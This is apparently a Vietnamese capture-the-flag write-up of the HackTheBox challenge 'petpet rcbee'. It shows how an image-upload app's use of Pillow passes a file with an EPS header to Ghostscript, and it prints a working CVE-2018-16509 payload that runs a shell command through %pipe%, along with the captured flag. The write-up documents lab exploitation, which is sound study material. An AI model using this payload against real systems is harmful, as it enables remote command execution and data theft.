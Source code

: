 ```yaml
---
tag:
    - htb
---
```

# petpet rcbee

## Tóm tắt

Bài này tiếp tục là một bài Whitebox.&#x20;

Lỗi đến từ việc sử dụng thư viện có lỗ hổng ở đây là Pillow.

## Walkthrough

Nói sơ qua về Web thì đây là một Web cho phép upload ảnh là tập hợp chúng lại thành một ảnh Gif


![image (9).png](./petpet-rcbee/XLrYkJPUH.png)

Xem qua một chút source thì có duy nhất một API cho phép upload


![image (11).png](./petpet-rcbee/iuM91d4SJ.png)

Lúc đầu mình có dự đoán là lỗ hổng xảy ra do việc upload file nhưng source sử dụng các hàm khá an toàn.&#x20;

```python
ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

generate = lambda x: os.urandom(x).hex()

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def save_tmp(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, secure_filename(file.filename))
    file.save(path)
    return path
```

Vậy cuối cùng phải tìm các hàm khác gây lỗi, và mình tìm được bài sau về [lỗ hổng RCE của Pillow liên quan tới GhostScript](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509). Lỗ hổng ngày bắt nguồn từ việc Pillow sử dụng GhostScript để xử lý các file liên quan tới EPS.&#x20;

```python
# Build Ghostscript command
    command = [
        "gs",
        "-q",  # quiet mode
        "-g%dx%d" % size,  # set output geometry (pixels)
        "-r%fx%f" % res,  # set input DPI (dots per inch)
        "-dBATCH",  # exit after processing
        "-dNOPAUSE",  # don't pause between pages
        "-dSAFER",  # safe mode
        "-sDEVICE=ppmraw",  # ppm driver
        "-sOutputFile=%s" % outfile,  # output file
        # adjust for image origin
        "-c",
        "%d %d translate" % (-bbox[0], -bbox[1]),
        "-f",
        infile,  # input file
        # showpage (see https://bugs.ghostscript.com/show_bug.cgi?id=698272)
        "-c",
        "showpage",
    ]

    ...

    # push data through Ghostscript
    try:
        startupinfo = None
        if sys.platform.startswith("win"):
            startupinfo = subprocess.STARTUPINFO()
            startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
        subprocess.check_call(command, startupinfo=startupinfo)
        im = Image.open(outfile)
        im.load()
    finally:
        ...
```

Và GhostScript tồn lại[ lỗ hổng Command Injection](https://seclists.org/oss-sec/2018/q3/142). Tuy việc Web đã filter extension đầu vào rồi tuy nhiên Pillow tự động xác định filetype của EPS thông quan header ví dụ như `!PS-Adobe-3.0 EPSF-3.0`Do đó, việc upload  và xử lý thông qua Pillow có thể dấn đến Command Injection.

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Và bài viết phía trên cung cấp luôn PoC rồi nên mình sử dụng luôn. Để đơn giản nên mình Exfiltration thông qua folder static luôn. PoC sẽ như sau

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static) currentdevice putdeviceprops
```

Và lấy flag xuống thôi :v

```python
>> curl http://188.166.173.208:30218/static/flag                    
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}% 
```
